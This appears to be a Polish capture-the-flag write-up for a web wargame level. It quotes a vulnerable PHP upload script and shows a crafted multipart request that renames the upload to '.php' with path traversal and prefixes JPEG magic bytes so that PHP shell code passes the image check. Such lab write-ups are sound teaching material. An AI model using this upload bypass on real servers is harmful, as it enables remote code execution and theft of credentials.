




Ten poziom jest identyczny jak poprzedni, z tym, że teraz sprawdzane jest rozszerzenie pliku podczas jego wrzucania.

Kod źródłowy:
```php
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
```

W podanym kodzie funkcja "exif_imagetype()" sprawdza czy wrzucony plik to obraz poprzez odczytanie pierwszych bajtów danych obrazu i sprawdzenie w nich sygnatury pliku. To rozwiązanie mimo wszystko pozwala na dodanie pliku z rozszerzeniem php na serwer poprzez modyfikację nazwy pliku w żądaniu POST.

Żądanie ze zmienionym rozszerzeniem i content-type:
```http
-----------------------------10124944942878058390744169992
Content-Disposition: form-data; name="MAX_FILE_SIZE"
1000
-----------------------------10124944942878058390744169992
Content-Disposition: form-data; name="filename"
../../../ehwbb9v8dk.php
-----------------------------10124944942878058390744169992
Content-Disposition: form-data; name="uploadedfile"; filename="Untitled.php"
Content-Type: text/plain
ÿØÿàJFIF
```

Wynik na stronie:


Sygnaturą pliku jpeg jest: "ÿØÿà␀␐JFIF␀␁", w hex: "FF D8 FF E0 00 10 4A 46 49 46 00 01". 

Modyfikując żądanie tak, żeby w danych pliku na początku znajdowała się sygnatura pliku a następnie kod php można oszukać mechanizm sprawdzania plików i ponownie wykorzystać powłokę w celu dostania się do hasła.



